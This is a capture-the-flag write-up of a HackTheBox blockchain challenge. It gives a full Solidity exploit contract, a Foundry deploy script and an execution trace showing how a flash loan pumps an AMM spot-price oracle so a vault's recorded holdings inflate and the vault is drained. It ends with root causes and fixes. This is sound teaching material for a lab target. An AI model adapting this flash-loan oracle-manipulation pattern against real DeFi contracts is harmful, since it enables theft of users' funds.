








# Caldrin's Day Away - v1olet CTF Writeup

**Cyber Apocalypse CTF 2026: The Salt Crown · HackTheBox**

| Category | Difficulty | Author | Team | Status |
| --- | --- | --- | --- | --- |
| **Blockchain** | Easy | RS1COA2HKR3 | v1olet | Solved |

---

## Challenge Description

On a random morning, Caldrin Vowmark leaves his chapel desk to escape royal seals, buy bread, and enjoy a quiet walk through the market. But the quay is already restless. Sailors argue over claim-marks, merchants blame bad luck, and a smiling broker named Verrin Goldhand moves through the crowd, calming people with soft words about patience and fortune.

Caldrin follows the noise to a small dockside Sharehouse, where sailors leave coin, salt, and trade goods before long voyages. In return, they receive claim-marks they can exchange when they return. Lately, a few visitors have arrived with modest bundles and come back soon after to collect far more than expected. The keepers call it luck from the sea, but Caldrin notices the same pale wax on every suspicious claim. Before he leaves, he finds one of those pale-waxed marks has been sent onward to a larger Sharehouse in the old quarter.

> **Goal:** Drain the `DocksideSharehouse` vault below **150,000 CROWN** tokens.


*Challenge UI - thematic browser frontend*

---

## Environment Setup

| Port | Purpose |
| --- | --- |
| `:<port1>` | Frontend UI + JSON-RPC (path-based) |
| `:<port2>` | Secondary service |

> **Connection Info:**
> RPC URL: `http://<ip>:<port1>/api/<uuid>` | Private Key: `<player key>` | Setup: `<Setup address>` | Wallet: `<player wallet>`

  
*OPEN BOOK exposes RPC URL, private key, setup contract and wallet*

---

## Investigation Clues

The UI presents four interactive clues that narratively hint at the exploit pattern.

  
*Investigation board - links the pale wax pattern to Verrin Goldhand*

  
*Notice scroll - hints at forged claim-marks moved quickly before inspection*

  
*Wax heat test - reveals copied marks, not witnessed claims*

  
*Waystone - points toward the larger Old Quarter Sharehouse, final destination of the fraud*

---

## Source Code

The challenge provides all contract source files as a download alongside the instance:

```text
Setup.sol
TradeToken.sol
DocksideMarket.sol
GoldhandCredit.sol
PublicStampDesk.sol
DocksideSharehouse.sol
IQuayBorrower.sol

```

  
*Source code files on disk*

> **Note:** Static analysis of these contracts revealed the vulnerability chain described below.

---

## Contract Architecture

| Contract | Role |
| --- | --- |
| `TradeToken` | Minimal ERC20 (CROWN and SALT, 6 decimals) |
| `DocksideMarket` | Fee-free AMM - CROWN/SALT pool, seeded 1M each |
| `GoldhandCredit` | Flash loan provider - holds 90M CROWN |
| `PublicStampDesk` | On-chain oracle - executes a pre-approved calldata bundle |
| `DocksideSharehouse` | Vault - deposit CROWN --> claim marks, redeem marks --> CROWN |
| `Setup` | Deploys everything, seeds liquidity, gives player 10k CROWN |

> **Win Condition:** `crownCoin.balanceOf(address(sharehouse)) < 150_000e6`
> *Sharehouse starts with **1,000,000 CROWN**. Over 850k must be drained.*

---

## Vulnerability Analysis

> **Root Vulnerability:** Spot-price oracle + fee-free AMM + missing loan-active guard --> single-tx full drain.

### 1. Oracle reads live AMM reserves (no TWAP)

`valueCargoAsOneGood` simply reads the current `crownReserve` - no time-averaging, no sanity bounds:

```solidity
function valueCargoAsOneGood(uint256 cargoMarkAmount, int128 good) external view returns (uint256) {
    uint256 reserve = good == 0 ? crownReserve : saltReserve;
    return (cargoMarkAmount * reserve) / totalCargoMarks;
    // = (1_000_000e6 * crownReserve) / 1_000_000e6 = crownReserve
}

```

So `recountHoldings` sets `recordedHoldings = crownReserve` at call time.

### 2. AMM has no swap fee - price manipulation is costless

`DocksideMarket.trade()` uses a plain constant-product swap with zero fees:

```solidity
function _amountOut(uint256 amountIn, uint256 reserveIn, uint256 reserveOut) internal pure returns (uint256) {
    return (amountIn * reserveOut) / (reserveIn + amountIn);
}

```

Dumping a large amount of CROWN into the pool instantly inflates `crownReserve` with no delay or protection.

### 3. Sharehouse redemption uses the manipulable `recordedHoldings`

```solidity
function redeemClaim(uint256 claimMarkAmount) external {
    uint256 crownCoinAmount = (claimMarkAmount * recordedHoldings) / totalClaimMarks;
    crownCoin.transfer(msg.sender, crownCoinAmount);
}

```

If `recordedHoldings` is 89x inflated, so is the payout.

### 4. Flash loan callback has no guard on `recountHoldings` or `redeemClaim`

`leaveGoods` correctly blocks during an active loan:

```solidity
require(goldhandCredit.activeBorrower() == address(0), "LOAN_ACTIVE");

```

But `recountHoldings` and `redeemClaim` have **no such check** - both are freely callable inside the flash loan callback.

---

## Attack Chain

1. **`takeTravelPurse()`** - receive 10,000 CROWN + travelPurseCredit.
2. **`leaveGoods(10_000e6)`** - deposit all CROWN into sharehouse, receive ~9,900 claim marks.
3. **`borrowForOneCall(89_000_000e6)`** - flash loan from GoldhandCredit, enter callback.
4. **`trade(CROWN-->SALT, 89M)`** - `crownReserve` spikes from 1M --> 90M (+89x).
5. **`recountHoldings(stampedOrder)`** - `recordedHoldings`: 1,010,000 --> 90,000,000.
6. **`redeemClaim(9,900 marks)`** - payout ≈ 891,089 CROWN vs 10,000 deposited (~89x return).
7. **`trade(SALT-->CROWN)`** - recover ~88,999,999,999 CROWN for repayment.
8. **Repay flash loan** - sharehouse balance ≈ 118,910 CROWN < 150,000  .

> **Note:** Entire attack executes atomically inside a single flash loan callback - no multi-tx risk.

---

## Exploit Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IERC20 {
    function transfer(address, uint256) external returns (bool);
    function transferFrom(address, address, uint256) external returns (bool);
    function approve(address, uint256) external returns (bool);
    function balanceOf(address) external view returns (uint256);
}

interface ISetup {
    function takeTravelPurse() external;
    function buildPublicRecountOrder() external view returns (bytes memory);
    function sharehouse() external view returns (address);
    function crownCoin() external view returns (address);
    function saltGoods() external view returns (address);
    function quayMarket() external view returns (address);
    function goldhandCredit() external view returns (address);
}

interface ISharehouse {
    function leaveGoods(uint256) external returns (uint256);
    function redeemClaim(uint256) external;
    function recountHoldings(bytes calldata) external;
    function claimMarks(address) external view returns (uint256);
}

interface IGoldhandCredit {
    function borrowForOneCall(uint256, bytes calldata) external;
}

interface IDocksideMarket {
    function trade(int128, int128, uint256, uint256) external returns (uint256);
}

contract Exploit {
    ISetup          public immutable setup;
    IERC20          public immutable crown;
    IERC20          public immutable salt;
    ISharehouse     public immutable sharehouse;
    IGoldhandCredit public immutable goldhand;
    IDocksideMarket public immutable market;

    bytes public stampedOrder;

    constructor(address _setup) {
        setup      = ISetup(_setup);
        crown      = IERC20(setup.crownCoin());
        salt       = IERC20(setup.saltGoods());
        sharehouse = ISharehouse(setup.sharehouse());
        goldhand   = IGoldhandCredit(setup.goldhandCredit());
        market     = IDocksideMarket(setup.quayMarket());
    }

    function attack() external {
        setup.takeTravelPurse();
        crown.approve(address(sharehouse), type(uint256).max);
        sharehouse.leaveGoods(10_000e6);
        stampedOrder = setup.buildPublicRecountOrder();
        crown.approve(address(market), type(uint256).max);
        salt.approve(address(market), type(uint256).max);
        goldhand.borrowForOneCall(89_000_000e6, "");
    }

    function onQuayLoan(uint256 amount, bytes calldata) external {
        require(msg.sender == address(goldhand), "UNTRUSTED_CALLER");
        market.trade(0, 1, amount, 0);
        sharehouse.recountHoldings(stampedOrder);
        uint256 myMarks = sharehouse.claimMarks(address(this));
        sharehouse.redeemClaim(myMarks);
        uint256 saltBal = salt.balanceOf(address(this));
        market.trade(1, 0, saltBal, 0);
        require(crown.balanceOf(address(this)) >= amount, "CANT_REPAY");
        crown.transfer(address(goldhand), amount);
    }
}

```

---

## Deployment & Execution

```bash
# Install Foundry
curl -L https://foundry.paradigm.xyz | bash
source ~/.bashrc && foundryup

# Set environment
export RPC_URL="http://<ip>:<port>/api/<uuid>"
export PRIV_KEY="<private key>"
export SETUP="<setup contract address>"

# Initialize project and build
forge init --force --no-git
mv *.sol src/
forge build

```

Deploy script - `script/Exploit.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;
import "forge-std/Script.sol";
import "../src/Exploit.sol";
import "../src/Setup.sol";

contract ExploitScript is Script {
    function run() external {
        vm.startBroadcast();
        Exploit e = new Exploit(SETUP_ADDRESS);
        e.attack();
        vm.stopBroadcast();
        require(Setup(SETUP_ADDRESS).isSolved(), "NOT SOLVED");
    }
}

```

Execute broadcast:

```bash
forge script script/Exploit.s.sol --rpc-url $RPC_URL --private-key $PRIV_KEY --broadcast -vvvv

```

> **Note:** Tx hash and block number visible in forge broadcast output under `broadcast/` directory.

---

## Execution Trace

```text
emit TravelPurseTaken(amount: 10,000,000,000)

emit GoodsLeft(crownCoinAmount: 10,000,000,000, claimMarkAmount: 9,900,000,000,000,000,000,000)

[Flash loan: 89,000,000,000,000 CROWN borrowed]

  trade(CROWN-->SALT, 89,000,000,000,000)
  --> SALT received: 988,888,888,888

  emit HoldingsRecounted(
      previousHoldings: 1,010,000,000,000,
      newHoldings:      90,000,000,000,000   ← 89x inflation
  )

  emit ClaimRedeemed(
      claimMarkAmount: 9,900,000,000,000,000,000,000,
      crownCoinAmount: 891,089,108,910        ← ~891k CROWN for 10k deposited
  )

  trade(SALT-->CROWN, 988,888,888,888)
  --> CROWN recovered: 88,999,999,999,920

[Flash loan repaid: 89,000,000,000,000 CROWN]

isSolved() --> sharehouse balance: 118,910,891,090 < 150,000,000,000  

```

---

##  Root Cause Summary

| # | Issue | Impact |
| --- | --- | --- |
| **1** | **Spot-price oracle - no TWAP** | `recordedHoldings` trivially manipulable within a flash loan |
| **2** | **Fee-free AMM** | Round-trip (dump CROWN --> sell SALT back) costs nothing; flash loan repays in full with profit |
| **3** | **Missing `activeBorrower` guard** | `recountHoldings`/`redeemClaim` allow entire attack to execute atomically inside the callback |

> **Fix:** Use a TWAP oracle (e.g., Uniswap V3 `observe`), add a swap fee, and extend the `activeBorrower` guard to `recountHoldings`.

---

## Flag

After the exploit is successful, we can click the 'CHECK FLAG' button in the 'OPEN BOOK' to retrieve our flag.

  

---

**v1olet** · Cyber Apocalypse CTF 2026: The Salt Crown · HackTheBox